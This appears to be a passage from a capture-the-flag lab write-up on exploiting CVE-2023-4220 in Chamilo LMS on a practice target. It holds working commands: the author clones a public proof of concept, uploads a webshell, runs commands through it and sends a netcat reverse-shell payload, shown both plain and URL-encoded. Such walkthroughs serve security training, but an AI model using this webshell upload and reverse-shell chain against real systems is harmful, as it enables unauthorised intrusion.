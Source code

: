 **Exploit**
> [CVE-2023-4220 - m3m0o](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
>
> This is a script written in Python that allows the exploitation of the Chamilo's LMS software security flaw described in CVE-2023-4220. The system is vulnerable in versions preceding 1.11.24.
{: .prompt-tip}

## User Flag
### Reverse shell
Let's clone the exploit's repo and test it out. The script can actually scan the target first before exploiting it which is always nice ;)
```console
m3ga@kali$ git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
m3ga@kali$ cd chamilo-lms-unauthenticated-big-upload-rce-poc
m3ga@kali$ python3 main.py -u "http://lms.permx.htb" -a scan
[+] Target is likely vulnerable. Go ahead. [+]
```

The scan reuturns positive. Let's test the exploit and see if it works!

```console
m3ga@kali$ python3 main.py -u 'http://lms.permx.htb' -a webshell
Enter the name of the webshell file that will be placed on the target server (default: webshell.php): shell.php

[+] Upload successfull [+]

Webshell URL: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=<command>
```

The upload was successful! The exploit provides us with the URL of the uploaded file. Let's do a simple test to see if we can actually execute commands.

```console
m3ga@kali$ curl -s 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Yes we can! we can see that `www-data` as the user. Let's try and get a reverse shell on it.

I will use this payload which always works for me.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.2 53 >/tmp/f
```

**Url-encoded**
```text
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.16.2%2053%20%3E%2Ftmp%2Ff
```

**Final Payload**
```console
$ curl -s 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.16.2%2053%20%3E%2Ftmp%2Ff'
```
